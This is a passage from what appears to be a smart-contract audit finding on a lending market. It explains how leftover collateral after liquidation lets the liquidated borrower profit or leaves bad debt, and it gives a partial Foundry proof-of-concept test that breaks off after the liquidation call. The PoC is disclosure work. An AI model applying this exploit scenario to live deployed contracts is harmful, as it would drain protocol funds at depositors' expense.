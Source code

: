 This leftover collateral may allow the liquidatee to redeem more net assets than it had before the liquidation (as the POC will show), or if the leftover collateral is still smaller than the debt, it will lead to permanent bad debt. In any case, the protocol takes a loss in favor of the liquidatee.

Add the following test to `Market.t.sol`:
```solidity
function test_POC_ProfitableLiquidationForLiquidatee_DueToEarningsAccumulator() external {
  uint256 maturity = FixedLib.INTERVAL * 2;
  uint256 assets = 10_000 ether;

  // BOB adds liquidity for liquidation
  vm.prank(BOB);
  market.depositAtMaturity(maturity + FixedLib.INTERVAL * 1, 2*assets, 0, BOB);

  // ALICE deposits and borrows
  ERC20 asset = market.asset();
  deal(address(asset), ALICE, assets);
  vm.startPrank(ALICE);
  market.deposit(assets, ALICE);
  market.borrowAtMaturity(maturity, assets*78*78/100/100, type(uint256).max, ALICE, ALICE);
  vm.stopPrank();

  // Maturity is over and some time has passed, accruing extra debt fees
  skip(maturity + FixedLib.INTERVAL * 90 / 100);

  // ALICE net balance before liquidation
  (uint256 collateral, uint256 debt) = market.accountSnapshot(address(ALICE));
  uint256 preLiqCollateralMinusDebt = collateral - debt;

  // Liquidator liquidates
  address liquidator = makeAddr("liquidator");
  deal(address(asset), liquidator, assets);
  vm.startPrank(liquidator);
  asset.approve(address(market), type(uint256).max);
  market.liquidate(ALICE, type(uint256).max, market);
  vm.stopPrank();

